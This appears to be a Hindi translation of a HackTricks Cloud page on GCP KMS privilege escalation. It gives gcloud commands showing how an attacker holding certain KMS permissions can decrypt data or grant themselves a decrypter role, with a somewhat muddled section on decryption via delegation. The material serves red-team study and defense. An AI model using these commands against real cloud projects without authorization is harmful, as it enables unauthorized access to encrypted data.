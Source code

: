 # GCP - KMS विशेषाधिकार

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## KMS

KMS के बारे में जानकारी:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

ध्यान दें कि KMS में **अनुमतियाँ** केवल **Orgs**, **Folders** और **Projects** से ही **विरासत** में नहीं होती हैं, बल्कि **Keyrings** से भी।

### `cloudkms.cryptoKeyVersions.useToDecrypt`

आप इस अनुमति का उपयोग करके **कुंजी के साथ जानकारी को डिक्रिप्ट** कर सकते हैं।
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

इस अनुमति के साथ एक हमलावर **खुद को अनुमतियाँ दे सकता है** कुंजी का उपयोग करने के लिए सूचना को डिक्रिप्ट करने के लिए।
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

यहाँ इस डेलीगेशन काम करने के सिद्धांतिक विश्लेषण है:

1. **सेवा खाता A** को KMS में एक विशिष्ट कुंजी का उपयोग करके डिक्रिप्ट करने का सीधा एक्सेस है।
2. **सेवा खाता B** को `useToDecryptViaDelegation` अनुमति प्रदान की गई है। इससे यह KMS से डेटा को डिक्रिप्ट करने के लिए सेवा खाता A की ओर से अनुरोध कर सकता है।

**इस अनुमति का उपयोग KMS सेवा चेक करती है जब एक डिक्रिप्शन अनुरोध किया जाता है**।

जब आप Google Cloud KMS API (Python या किसी अन्य भाषा में) का उपयोग करके स्टैंडर्ड डिक्रिप्शन अनुरोध करते हैं, सेवा **यह जांचती है कि अनुरोधक सेवा खाता के पास आवश्यक अनुमतियाँ हैं**। अगर अनुरोध सेवा खाता द्वारा किया गया है जिसके पास **`useToDecryptViaDelegation`** अनुमति है, तो KMS सत्यापित करता है कि क्या यह **खुद कुंजी के मालिक के लिए डिक्रिप्शन का अनुरोध करने की अनुमति है**।

#### डेलीगेशन के लिए सेटअप

1. **कस्टम रोल को परिभाषित करें**: एक YAML फ़ाइल बनाएं (उदाहरण के लिए, `custom_role.yaml`) जो कस्टम रोल को परिभाषित करती है। इस फ़ाइल में `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation` अनुमति शामिल होनी चाहिए। यहाँ एक उदाहरण है कि इस फ़ाइल कैसे दिख सकती है:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **gcloud CLI का उपयोग करके कस्टम भूमिका बनाएं**: निम्नलिखित कमांड का उपयोग करें अपने Google Cloud परियोजना में कस्टम भूमिका बनाने के लिए:
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

अपने Google Cloud परियोजना आईडी के साथ `[YOUR_PROJECT_ID]` को बदलें।

3. **कस्टम भूमिका को सेवा खाते को प्रदान करें**: इस अनुमति का उपयोग करने वाला सेवा खाता आपकी कस्टम भूमिका को असाइन करें। निम्नलिखित कमांड का उपयोग करें:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
`[YOUR_PROJECT_ID]` और `[SERVICE_ACCOUNT_EMAIL]` को अपने परियोजना आईडी और सेवा खाते के ईमेल के साथ बदलें।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
